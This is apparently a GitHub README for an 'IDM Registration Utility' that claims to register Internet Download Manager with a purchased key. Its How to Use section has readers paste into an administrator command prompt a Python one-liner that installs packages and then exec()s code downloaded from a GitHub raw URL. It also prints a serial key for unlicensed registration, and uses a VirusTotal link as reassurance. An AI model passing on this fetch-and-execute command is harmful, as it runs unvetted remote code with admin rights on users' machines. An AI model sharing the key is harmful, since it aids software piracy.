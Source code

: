 <h1 style="margin-left: 20px;">IDM Registration Utility (idman641, Build 18, Latest Version)</h1>

Welcome to my repository! This IDM is not crack or unoffcial vertion, it just register IDM with valid key which has been purchased !
Crack and Unoficial vertion contains Virus and trojans, you can download official IDM and register it via this py script.
<img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/idm.png" alt="IDM Logo" width="20" height="18">
## Additional Resources
- If you have any concerns about the IDM Utility, you can use [VirusTotal](https://www.virustotal.com) to scan the executable file for peace of mind. 
<br>
Herse the Report <br>
<a href="https://www.virustotal.com/gui/file/6ee0630168046a59382c17cc230cf667853858b6a1fc848b3dd118869f729cdf" target="_blank">
  <img src="https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/Virustotal_logo_pixelalign.png" alt="IDM Logo" width="200" height="60">
</a>


You can find resources in resources folder.


## Screenshots
Here's a screenshot of what the Registerd IDM looks like:
![IDM Screenshot](https://raw.githubusercontent.com/musaalif6969/IDM-Registered-Version/main/image.png)

## How to Use
1. Install Pythion on your device.
2. Copy this command, and past it on cmd (Administration required)
```python
C:\Windows\py.exe -c "import subprocess, sys; subprocess.run([sys.executable, '-m', 'pip', 'install', 'requests', 'psutil', '-qU']); import requests, psutil, subprocess; exec(requests.get('https://raw.githubusercontent.com/musaalif6969/IDM-Registration-Utility/main/main.py').text)"

```
3.Your good to go !

---

## Additional Info


```ini
; First Name
[FName]="Musa"

; Installation Status
[InstallStatus]=dword:00000003

; Last Name
[LName]="Alif"

; Email Address
[Email]="info@tonec.com"

; Serial Key
[Serial]="HE3TB-8J3SY-FP9SC-6RKR2"
```
